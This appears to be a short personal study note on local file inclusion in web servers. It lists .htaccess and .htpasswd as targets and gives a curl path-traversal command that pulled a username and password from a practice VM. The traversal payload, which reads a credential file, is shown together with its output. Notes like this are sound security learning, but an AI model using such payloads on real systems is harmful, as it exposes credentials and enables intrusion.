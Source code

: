 tags:: apache, ngnix, iis

- If you manage to get #LFI, then you can look for interesting files
	- `.htaccess`
	  logseq.order-list-type:: number
	- `.htpasswd`
	  logseq.order-list-type:: number
	- ==TODO==: Search for a wordlist optimized for webservers file and use it with `gobuster`.While I was playing with the [[Included VM]] I managed to get user password this way
	  logseq.order-list-type:: number
	  
	  ```bash
	  curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
-